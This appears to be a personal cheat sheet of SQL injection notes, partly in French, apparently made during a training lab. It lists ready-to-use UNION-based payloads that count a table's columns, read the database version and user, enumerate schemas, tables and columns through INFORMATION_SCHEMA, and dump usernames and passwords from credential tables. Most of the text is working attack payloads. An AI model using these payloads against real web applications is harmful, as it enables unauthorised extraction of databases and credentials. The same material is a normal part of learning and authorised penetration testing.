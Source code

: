 ## Database Enumeration

## Number of columns

### Première methode :
' order by 1-- 
' order by 2-- 
...
' order by 4-- 

Si pas d'erreur à 4 et erreur à 5 -> la table contient 4 colonnes

### Seconde méthode :

cn' UNION select 1,2,3,4-- 

Si pas d'erreur -> la table contient 4 colonnes

cn' UNION select 1,@@version,3,4-- 
cn' UNION select 1,user(),3,4-- 

## DBMS technology

- If the Web server we see in HTTP response is Apache or Nginx, DBMS is most likely MYSQL(Linux).
- If the Web server we see in HTTP response is IIS, DBMS is most likely MSSQL (Windows).

## Databse version

cn' UNION select 1,@@version,3,4-- 

## INFORMATION_SCHEMA : SCHEMATA

The table SCHEMATA in the INFORMATION_SCHEMA database contains information about all databases on the server.

SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

cn' UNION select 1,database(),2,3-- -

## TABLES :

cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

## COLUMNS :

cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

## DATA :

cn' UNION select 1, username, password, 4 from dev.credentials-- -
cn' UNION select 1, username, password, 4 from ilfreight.users-- -